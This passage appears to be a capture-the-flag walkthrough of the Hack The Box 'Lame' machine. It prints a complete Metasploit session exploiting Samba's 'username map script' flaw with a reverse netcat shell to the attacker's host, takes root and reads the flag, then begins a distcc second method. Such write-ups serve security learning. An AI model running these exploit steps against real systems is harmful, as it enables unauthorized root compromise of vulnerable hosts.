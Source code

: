 ![Lame anthem](https://i.ibb.co/hHzKFYG/sploit.png)

## 1er Exploitation
I find an exploit by the name Username' map script' Command Execution (Metasploit)already available on Metasploit that I can use to exploit it

```bash
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.14.10
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:57687) at 2024-04-03 19:38:03 +0000

id
uid=0(root) gid=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/root# cat root.txt
cat root.txt
92caac3be140ef409e45721348a4e9df
```
Voila, we have just rooted the Box with the first method.

# 2eme Methode
For a more in-depth look at the operation of the Box, I noticed that the last port 3632was also vulnerable to a Daemon Command Execution. First I will look for a scanner of this port withnmap

```bash
─# ls /usr/share/nmap/scripts | grep "distcc" 
distcc-cve2004-2687.nse
```
![Lame anthem](https://i.ibb.co/M2NZwNq/l3.png)
